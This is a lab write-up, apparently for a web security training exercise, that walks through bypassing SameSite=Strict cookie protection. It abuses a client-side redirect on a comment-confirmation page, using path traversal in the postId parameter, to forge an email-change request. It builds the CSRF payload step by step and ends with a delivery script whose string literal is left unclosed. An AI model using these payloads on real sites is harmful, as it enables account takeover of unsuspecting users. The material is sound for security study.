







# SameSite Strict bypass via client-side redirect

### Goal - 

use your exploit server to host an HTML page that uses a CSRF attack to change the viewer’s email address.

### Analysis/Exploitation -

Login as user `wiener`:



it’ll set a new session cookie for us: we can see there is a `SameSite` attribute, which is set to `Strict` restriction.

**Inspect the change-email request **



It doesn’t have a CSRF token parameter, which helps to prevent CSRF (Cross-Site Request Forgery) attack. So, it may be vulnerable to CSRF.

It send a POST request to `/my-account/change-email`, with parameter `email`, `submit`.

**Change request method to GET**



It accepts the GET method too

However, in order to exploit CSRF, we first have to **bypass the **`SameSite=Strict`** restriction.**


💡 **Strict restriction:**



If a cookie is set with the `SameSite=Strict `attribute, browsers won’t include it in any cross-site requests. You may be able to get around this limitation if you can find a gadget that results in a secondary request within the same site.

One possible gadget is a client-side redirect that dynamically constructs the redirection target using attacker-controllable input like URL parameters.

As far as browsers are concerned, these client-side redirects aren’t really redirects at all; the resulting request is just treated as an ordinary, standalone request. Most importantly, this is a same-site request and, as such, will include all cookies related to the site, regardless of any restrictions that are in place.

If you can manipulate this gadget to elicit a malicious secondary request, this can enable you to bypass any SameSite cookie restrictions completely.

**Find & Understand the Client Side Redirect**

In the home page, we can view different posts And we can leave some comments.

Let’s leave a test comment:





After we send the request, it’ll fetch a JavaScript file:



When we go to `/post/comment/confirmation`, it’ll run that JavaScript:

- After 3 seconds, redirect user to `/post/<postId>`



However, the GET parameter `postId` is fully under attacker’s control!

**Now, what if I change the path to **`/my-account`** via path traversal?**

- Start crafting our payload

```html
/post/comment/confirmation?postId=6
```

- Change payload to redirect to my-account page

```html
/post/comment/confirmation?postId=my-account/
```

- Add a traversal attack to our payload

```html
/post/comment/confirmation?postId=../my-account/
```

- Modify payload to change our email

```html
/post/comment/confirmation?postId=../my-account/change-email?email=test@wiener.com&submit=1
```

- URL encode ampersand `&` may its not able to determine when our mail ends

```html
/post/comment/confirmation?postId=../my-account/change-email?email=test@wiener.com%26submit=1
```

- Craft out final payload

```html
<script>
window. location = "https://0ad1003704e4d04e8077d6250056008f.web-security-academy.net/post/comment/confirmation?postId=../my-account/change-email?email=test@wiener.com%26submit=1
</script>
```

- Deliver our final payload to the victim
